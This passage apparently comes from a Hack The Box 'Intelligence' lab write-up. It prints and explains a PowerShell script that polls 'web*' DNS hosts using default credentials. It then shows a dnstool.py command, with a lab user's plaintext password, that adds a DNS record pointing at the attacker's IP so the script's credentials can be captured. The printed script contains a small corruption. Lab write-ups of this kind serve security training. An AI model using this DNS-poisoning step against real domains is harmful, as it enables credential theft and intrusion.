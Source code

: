 This file `downdetector.ps1` :

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ cat downdetector.ps1                                                                   
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
{: .nolineno}

The above code is a PowerShell script designed to check the status of web servers. Here’s a breakdown of what it does:

1. `Import-Module ActiveDirectory`: This command imports the Active Directory module, which allows the script to interact with Active Directory objects.
2. `foreach($record in Get-ChildItem "AD:...")`: The script iterates over DNS records in Active Directory that start with “web”.
3. `try { ... } catch {}`: This is a try-catch block used to handle any exceptions that may occur during the execution of the code within the try block.
4. `$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials`: For each record, the script makes a web request to the corresponding URL using the default credentials of the user running the script.
5. `if($request.StatusCode -ne 200) { ... }`: If the HTTP status code returned is not 200 (OK), indicating that the web server is not responding properly, the script sends an email.
6. `Send-MailMessage ...`: This command sends an email to ‘Ted Graves’ with the subject indicating which host is down.

The script is scheduled to run every 5 minutes, as indicated by the comment at the top. It’s a monitoring script to ensure web servers are functioning correctly and to alert the administrator if any server goes down.

Since this script is iterating over a DNS record start with “web” , so I know a Tool that will include a DNS record into this Active directory machine with LDAP.

**[dnstool.py](http://dnstool.py) that work on [krbrelayx](https://github.com/dirkjanm/krbrelayx) via LDAP.**

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ python3 /opt/Tools/krbrelayx/dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-Strong --data 10.10.16.29 --type A 10.10.10.248    
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
{: .nolineno}

